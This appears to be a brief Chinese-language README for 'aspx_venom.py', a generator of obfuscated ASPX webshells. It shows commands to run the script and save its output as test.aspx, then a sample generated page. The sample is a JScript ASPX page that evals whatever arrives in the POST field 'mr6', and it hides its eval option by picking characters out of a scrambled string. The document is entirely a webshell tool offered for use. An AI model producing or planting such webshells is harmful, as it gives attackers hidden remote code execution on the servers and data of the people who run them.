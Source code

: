 ##使用方法

`python3 aspx_venom.py`

保存:

`python3 aspx_venom.py >  test.aspx`

生成样例:
```
<%@ Page Language="Jscript" Debug=true%>
<%
var a='fnVhLPspyUHWdGgTlNRcEZxwvqiSoBQXMerbKmFCutAzjJIODakY';
var b=Request.Form("mr6");
var c=a(9)+a(1)+a(6)+a(42)+a(0)+a(20);
eval(b,c);
%>
```
